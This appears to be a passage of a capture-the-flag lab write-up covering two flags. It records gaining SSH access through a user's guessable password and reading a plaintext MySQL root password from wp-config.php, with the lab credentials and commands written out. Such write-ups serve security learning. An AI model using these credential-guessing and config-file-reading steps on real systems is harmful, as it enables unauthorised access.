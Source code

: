 
**flag2:** `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        Cd ../../
        Find -iname “*flag*” 2>/dev/null
        Cat /var/www/fllag2.txt
    ```

    **Flag2**

    ![3](/Images/1/3.png)

---

**flag3:**  `flag3{afc01ab56b50591e7dccf93122770cd2}`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The root password to access the SQL database is reachable in plain text on the file wp-config.php
    
    Exploit:
    ```
    Nano wp-config.php
    Look down mysql database password
    mysql -u root -p
    Password: R@v3nSecurity
    ```

    ![4](/Images/1/4.png)
